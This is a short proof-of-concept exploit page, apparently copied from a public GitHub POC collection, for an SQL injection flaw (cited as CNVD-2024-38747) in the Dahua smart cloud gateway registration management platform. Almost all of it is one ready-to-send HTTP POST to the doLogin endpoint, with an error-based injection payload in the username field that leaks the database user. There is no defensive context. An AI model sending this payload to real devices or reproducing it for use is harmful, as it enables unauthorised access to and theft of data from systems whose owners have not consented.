 # dahua_doLogin_sqli

product: 大华智能云网关注册管理平台

```
POST /index.php/User/doLogin HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

username=1')and+updatexml(1,concat(0x7e,user(),0x7e),1)--+&password=
```

from: https://github.com/wy876/POC/blob/main/%E5%A4%A7%E5%8D%8E/%E5%A4%A7%E5%8D%8E%E6%99%BA%E8%83%BD%E4%BA%91%E7%BD%91%E5%85%B3%E6%B3%A8%E5%86%8C%E7%AE%A1%E7%90%86%E5%B9%B3%E5%8F%B0SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E(CNVD-2024-38747).md
